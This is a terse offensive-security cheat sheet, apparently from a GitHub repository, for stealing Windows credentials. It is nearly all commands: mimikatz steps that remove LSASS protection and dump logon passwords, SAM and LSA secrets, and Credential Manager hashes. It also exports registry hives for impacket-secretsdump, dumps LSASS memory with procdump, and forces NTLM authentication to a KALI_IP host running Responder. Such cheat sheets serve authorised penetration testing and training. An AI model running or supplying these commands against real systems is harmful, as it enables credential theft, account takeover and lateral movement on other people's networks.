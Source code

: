 ## mimikatz
```shell
# 1
privilege::debug
token::elevate

# 2 Use this if above doesn't fully give results
sekurlsa::logonpasswords
# if logonpasswords returns an error, do this and the below
!+ 
!processprotect /process:lsass.exe /remove
# Now try sekurlsa::logonpasswords again

#
# SAM (LOCAL)
lsadump::sam /patch

#
# LSA (DOMAIN)
lsadump::lsa /patch
lsadump::lsa /inject

#
# LSASS (Users logged on since last reboot)
sekurlsa::msv

#
# Windows Cred Manager hashes
sekurlsa::credman # Windows Cred Manager hashes
```
## reg command
```shell
# 1 Save the files
reg save HKLM\SAM "C:\Windows\Temp\sam.save"
reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
# reg save HKLM\SECURITY "C:\Windows\Temp\security.save"


# 2 Transfer to Kali and dump
impacket-secretsdump -sam sam.save -system system.save [ -security security.save ] local


# Others
# A 
procdump -accepteula -ma lsass.exe lsass.dmp

# B
Task Manager → Right click lsass.exe → Create dump file

# C
Control Panel → User Accounts → Credential Manager
```
## NTLM Capture via UNC
```shell
# 1 Use Responder OR impacket-smbserver
sudo responder -I tap0
impacket-smbserver smb . -smb2support


#  2 Force auth
dir \\KALI_IP\path\to\test
```